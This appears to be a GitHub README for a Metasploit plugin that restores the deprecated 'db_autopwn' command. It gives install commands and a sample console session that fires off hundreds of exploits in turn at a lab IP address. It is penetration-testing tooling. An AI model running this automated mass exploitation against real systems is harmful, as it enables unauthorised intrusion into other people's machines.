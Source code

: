 # metasploit-db_autopwn

metasploit plugin for easy exploit & vulnerability attack.<br>
But, the db_autopwn command is removed from official distribution.<br>

## Install
### 1. Clone this repo or download "db_autopwn.rb" file<br>
- clone this repository

```
#> git clone https://github.com/hahwul/metasploit-autopwn
```

<br>
or <br>
<br>

- download db_autopwn.rb file in metasploit plugin directory

```
#> wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
```

### 2. Move dB_autopwn.rb file into metasploit plugin directory

```
#> cd metasploit-autopwn
```
```
#> cp db_autopwn.rb /usr/share/metasploit-framework/plugins
```
or (install path)
```
#> cp db_autopwn.rb /opt/metasploit-framework/plugins
```

## Usage

    #> msfconsole
    MSF > load db_autopwn
    [*] Successfully loaded plugin: db_autopwn
    
    MSF > db_autopwn -p -R great -e -q 192.168.56.101 
    [-] The db_autopwn command is DEPRECATED
    [-] See http://r-7.co/xY65Zr instead
    [*] (1/1301 [0 sessions]): Launching exploit/bsdi/softcart/mercantec_softcart against 192.168.56.44:80...
    [*] (2/1301 [0 sessions]): Launching exploit/freebsd/http/watchguard_cmd_exec against 192.168.56.44:80...
    [*] (3/1301 [0 sessions]): Launching exploit/linux/antivirus/escan_password_exec against 192.168.56.44:80...
    [*] (4/1301 [0 sessions]): Launching exploit/linux/http/accellion_fta_getstatus_oauth against 192.168.56.44:80...
    [*] (5/1301 [0 sessions]): Launching exploit/linux/http/advantech_switch_bash_env_exec against 192.168.56.44:80...



